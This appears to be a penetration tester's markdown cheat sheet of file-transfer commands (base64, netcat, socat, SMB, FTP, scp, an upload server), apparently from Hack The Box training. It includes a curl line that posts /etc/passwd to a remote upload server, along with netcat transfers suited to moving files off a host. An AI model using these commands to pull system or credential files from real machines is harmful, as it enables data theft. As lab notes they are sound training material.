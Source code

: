 # Base64

**Sender:** `cat file | base64 -w 0;echo` <br>
**Reciever** `echo -n base64payload | base64 -d > filename`   Confirm md5 hash match in linux: `md5sum file`

# Netcat
**Sender:** `nc --send-only 10.10.10.10 4444 < file`<br>
**Reciever:** `nc -lvp 4444 > file`

# Web 

**Sender:** `python3 -m http.server 8080` <br>
**Reciever:** `wget http://10.10.10.10:8080/file` or `curl`

# SSH
**Sender:** `scp file username@hostname:/home/user/`<br>
**Reciever:** `scp username@hostname:/root/file .`<br>

# Socat

**Sender:** `socat TCP:192.168.0.107:4545 /home/kali/transfer.file`<br>
**Reciever:** `socat TCP-LISTEN:4545 /home/hunter/transfer.file`

# FTP
**Sender:** `python3 -m pyftpdlib -p21 -w` or `python3 -m pyftpdlib -u admin -P 8618` with user and password<br>
**Receiever** `ftp IP port` and put, get commands

# SMB
Without password from `/usr/share/doc/python3-impacket/examples`<br>
**Sender:** `python3 smbserver.py sharename /home/hunter`<br>
**Receiever:** `smbclient //IP/Sharename`<br>
With password:<br>
**Sender:** `python3 smbserver.py -username admin -password 8618 adminshare /home/hunter`<br>
**Reciever:** `smbclient -U admin //192.168.0.107/adminshare` <br>

# Xfreerdp
```bash
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

# Upload server

1) Create openssl certificate:
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
2) Start upload server:
```bash
sudo python3 -m uploadserver 443 --server-certificate /location/server.pem
```
**Reciever:** `curl -X POST https://192.168.0.107/upload -F 'files=@/etc/passwd' --insecure` or browse web server to `/upload` location
